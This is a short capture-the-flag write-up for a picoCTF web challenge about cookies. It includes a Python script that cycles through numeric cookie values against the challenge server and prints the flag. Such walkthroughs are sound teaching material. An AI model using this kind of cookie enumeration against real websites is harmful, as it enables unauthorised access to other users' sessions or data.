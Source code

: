 ## description
Who doesn't love cookies? Try to figure out the best one.

## solution
we see the page on which we can write a flag and get a response 
if we check the cookies after writing anything we can the value of the cookie is enumerate just like 1,2,3, etc. 
probably by changing the value of the cookie we will find out the flag 
for this reason i  created script in python 
```python 
import requests  
  
session = requests.session()  
  
for x in range(28):  
    response = session.get('http://mercury.picoctf.net:xxxxx/check', cookies={'name': str(x)})  
    solution = response.text.find('pico')  
    if solution != -1:  
        print(response.text[solution:response.text.find('}')+1])
```
it prints the response which include "pico" - the flag
